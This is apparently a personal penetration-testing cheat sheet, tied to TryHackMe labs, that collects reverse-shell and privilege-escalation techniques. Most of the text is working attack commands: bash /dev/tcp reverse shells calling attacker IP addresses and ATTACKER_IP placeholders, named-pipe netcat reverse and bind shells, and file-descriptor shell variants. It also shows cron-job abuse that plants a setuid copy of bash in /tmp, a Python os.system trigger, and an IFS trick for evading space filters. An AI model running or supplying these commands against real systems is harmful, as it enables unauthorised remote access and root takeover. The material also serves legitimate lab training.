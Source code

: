 
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.21.31.111/443 0>&1
```

<font color="red">Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both #! and +x</font>
Also testrun shell as current user before waiting for scheduled job to run

---

If you get the error:
`mksudo.sh: 8: mksudo.sh: Syntax error: Bad fd number`
you're running with sh, not bash

---

`${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`

-i   interactive
`>&`: redirects both standard output (stdout) and standard error (stderr)
`0>&1`: redirects the standard input (stdin) to the same destination as standard output. This ensures that any input intended for the shell is also sent over the network connection to the attacker's machine.

-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

rev shell file:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

To run with existing cronjob or similar:
```sh
#!/bin/bash
cp /bin/bash /tmp/mybash
chmod +xs /tmp/mybash
```
chmod +x /home/user/whatever.sh
/tmp/mybash -p

---
alternative

nano revsh.sh
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```
in python code run by system (like crontab)
```python
import os

os.system("touch /tmp/testfile")
os.system("bash /tmp/revsh.sh")
```

---

Revsh using named pipes (connecting from target machine)
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

Bind shell using named pipes (listening on target machine)
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
connect with
```sh
nc -nv TARGET_IP 8080
```

---

Read Line Rev shell (creates file descriptor)
```sh
5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

Rev shell with File descriptor 196
```sh
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

Rev shell with File descriptor 5
```sh
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

